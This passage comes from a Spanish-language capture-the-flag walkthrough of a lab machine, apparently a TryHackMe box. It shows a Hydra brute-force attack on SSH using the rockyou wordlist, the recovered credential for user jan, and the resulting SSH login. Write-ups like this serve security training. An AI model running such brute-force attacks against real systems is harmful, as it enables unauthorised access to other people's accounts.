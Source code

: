 De acuerdo a la nota previa, podemos identificar la presencia de dos posibles usuarios: **Jan** y **Kay**. Es probable que estos nombres estén relacionados con las menciones encontradas en las notas de los desarrolladores.

## Explotación

---

### Fuerza bruta sobre el servicio SSH

Considerando la presencia de los usuarios Jan y Kay, podríamos llevar a cabo un ataque de fuerza bruta en el servicio SSH con el objetivo de identificar posibles contraseñas.

```bash
❯ hydra -L users.txt -P /usr/share/wordlists/rockyou.txt 10.10.132.236 ssh
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-05-19 23:28:22
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 28688798 login tries (l:2/p:14344399), ~1793050 tries per task
[DATA] attacking ssh://10.10.132.236:22/
[STATUS] 146.00 tries/min, 146 tries in 00:01h, 28688655 to do in 3274:58h, 13 active
[STATUS] 92.00 tries/min, 276 tries in 00:03h, 28688525 to do in 5197:12h, 13 active
[STATUS] 88.71 tries/min, 621 tries in 00:07h, 28688180 to do in 5389:38h, 13 active
[22][ssh] host: 10.10.132.236   login: jan   password: armando
```

Hemos logrado obtener la contraseña válida para el usuario **Jan**, lo que nos permite ahora acceder a la máquina de forma segura mediante SSH.

```bash
❯ ssh jan@10.10.132.236
The authenticity of host '10.10.132.236 (10.10.132.236)' can't be established.
ED25519 key fingerprint is SHA256:XKjDkLKocbzjCch0Tpriw1PeLPuzDufTGZa4xMDA+o4.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.132.236' (ED25519) to the list of known hosts.
jan@10.10.132.236's password: 
Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.4.0-119-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

```